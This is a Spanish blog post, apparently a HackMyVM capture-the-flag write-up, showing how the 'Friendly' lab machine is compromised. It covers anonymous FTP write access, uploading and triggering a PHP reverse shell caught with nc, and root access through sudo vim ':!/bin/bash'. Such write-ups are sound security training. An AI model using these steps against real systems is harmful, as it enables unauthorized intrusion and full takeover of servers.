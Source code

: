 ```yaml
---
layout: post
title:  "Friendly"
date:   2023-04-15 18:20:52 +0200
categories: hackmyvm
---
```

**Autor**: Rijaba \\
**Dificultad**: Fácil
![img](/assets/hmv/hmv_friendly/friendly_logo.png)

### Escaneo de puertos
```js
❯ nmap -p- -T5 -n -v 192.168.1.12

PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
```

### Escaneo de servicios
```txt
❯ nmap -sVC -v -p 21,80 192.168.1.12

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
80/tcp open  http    Apache httpd 2.4.54 ((Debian))
|_http-server-header: Apache/2.4.54 (Debian)
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Debian Default Page: It works
```

### HTTP
Tenemos la página por defecto de apache.
```txt
❯ curl -s http://192.168.1.12 | html2text

[Debian Logo]  Apache2 Debian Default Page
It works!
This is the default welcome page used to test the correct operation of the
Apache2 server after installation on Debian systems. If you can read this page,
it means that the Apache HTTP server installed at this site is working
properly. You should replace this file (located at /var/www/html/index.html)
before continuing to operate your HTTP server.
If you are a normal user of this web site and don't know what this page is
about, this probably means that the site is currently unavailable due to
maintenance. If the problem persists, please contact the site's administrator.
Configuration Overview
```
### FTP
Me conecto al servidor FTP con el usuario anonymous y veo un archivo  index.html se trata del archivo por defecto del servidor apache.
```txt
❯ ftp 192.168.1.12

Name (192.168.1.12:noname): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||31488|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 .
drwxrwxrwx   2 root     root         4096 Mar 11 09:13 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
226 Transfer complete
```
Creo un archivo ``phpinfo.php`` y lo subo al servidor FTP porque que tengo permisos de lectura, escritura y ejecución.
```php
<?php
    phpinfo();
?>
```

Con Firefox abro el archivo ``phpinfo.php`` y veo que interpreta código php.

![img](/assets/hmv/hmv_friendly/phpinfo.png)

Me he descargado esta [ shell](http://pentestmonkey.net/tools/php-reverse-shell/php-reverse-shell-1.0.tar.gz) y la he configurado apuntando a mi dirección ip.


La subo al servidor FTP con el comando ``put``.
```txt
ftp> put php-reverse-shell.php 
local: php-reverse-shell.php remote: php-reverse-shell.php
229 Entering Extended Passive Mode (|||47066|)
150 Opening BINARY mode data connection for php-reverse-shell.php
100% |****************************************|  3463       66.05 MiB/s    00:00 ETA
226 Transfer complete
3463 bytes sent in 00:00 (2.60 MiB/s)
ftp> ls -la
229 Entering Extended Passive Mode (|||58099|)
150 Opening ASCII mode data connection for file list
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 .
drwxrwxrwx   2 root     root         4096 Mar 24 12:21 ..
-rw-r--r--   1 root     root        10725 Feb 23 15:26 index.html
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:18 phpinfo.php
-rw-r--r--   1 ftp      nogroup      3463 Mar 24 12:21 php-reverse-shell.php
226 Transfer complete
```

Uso curl para entablarme la reverse-shell.
```txt
❯ curl -s http://192.168.1.12/php-reverse-shell.php
```
Obtengo la shell.

```txt
❯ nc -lvp 1234
listening on [any] 1234 ...
192.168.1.12: inverse host lookup failed: Unknown host
connect to [192.168.1.16] from (UNKNOWN) [192.168.1.12] 47948
Linux friendly 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64 GNU/Linux
 08:25:02 up 11 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
```

Realizo el tratamiento de la tty.
```txt
script /dev/null -c bash
ctrl +z
stty raw -echo;fg
reset
xterm
export TERM=xterm SHELL=bash
stty -row 46 columns 188
```
### Privesc
Lanzo ``sudo -l`` para ver que permisos tengo con sudo.

```txt
www-data@friendly:/home/RiJaba1$ sudo -l
Matching Defaults entries for www-data on friendly:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on friendly:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

Me voy a gtfobins y busco vim.

![img](/assets/hmv/hmv_friendly/vim_gtfobins.png)

Uso el comando de gtfobins para obtener el root solo que la parte del comando donde pone ``/bin/sh`` lo he cambiado por ``/bin/bash``.
```txt
www-data@friendly:/home/RiJaba1$ sudo /usr/bin/vim -c ':!/bin/bash'
root@friendly:~# whoami
root
```

Al intentar leer la flag de root me encuentro con el siguiente mensaje.

```txt
root@friendly:~# cat root.txt 
Not yet! Find root.txt.
```
Uso ``find`` para encontrar el archivo root.txt.

```txt
root@friendly:~# find / -name root.txt 2>/dev/null
```

Y con esto ya tenémos resuelta la máquina friendly! Happy Hacking! :)



